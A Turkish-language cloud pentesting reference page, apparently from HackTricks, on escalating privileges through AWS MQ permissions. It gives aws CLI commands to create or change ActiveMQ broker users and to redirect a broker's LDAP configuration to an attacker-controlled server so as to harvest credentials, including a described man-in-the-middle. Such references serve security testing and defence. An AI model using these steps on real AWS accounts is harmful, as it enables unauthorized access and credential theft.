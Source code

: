 # AWS - MQ Privesc

{{#include ../../../banners/hacktricks-training.md}}

## MQ

MQ hakkında daha fazla bilgi için kontrol edin:

{{#ref}}
../aws-services/aws-mq-enum.md
{{#endref}}

### `mq:ListBrokers`, `mq:CreateUser`

Bu izinlerle **bir ActimeMQ broker'ında yeni bir kullanıcı oluşturabilirsiniz** (bu RabbitMQ'da çalışmaz):
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
**Potansiyel Etki:** ActiveMQ üzerinden hassas bilgilere erişim

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

Bu izinlerle **ActiveMQ broker'ında yeni bir kullanıcı oluşturabilirsiniz** (bu RabbitMQ'da çalışmaz):
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
**Olası Etki:** ActiveMQ üzerinden hassas bilgilere erişim

### `mq:ListBrokers`, `mq:UpdateBroker`

Eğer bir broker **ActiveMQ** ile yetkilendirme için **LDAP** kullanıyorsa, **saldırgan tarafından kontrol edilen** bir **LDAP sunucusunun yapılandırmasını değiştirmek** mümkündür. Bu şekilde saldırgan, **LDAP üzerinden gönderilen tüm kimlik bilgilerini çalabilir**.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
Eğer bir şekilde ActiveMQ tarafından kullanılan orijinal kimlik bilgilerini bulabilirseniz, bir MitM gerçekleştirebilir, kimlik bilgilerini çalabilir, bunları orijinal sunucuda kullanabilir ve yanıtı gönderebilirsiniz (belki sadece çalınan kimlik bilgilerini yeniden kullanarak bunu yapabilirsiniz).

**Potansiyel Etki:** ActiveMQ kimlik bilgilerini çalmak

{{#include ../../../banners/hacktricks-training.md}}
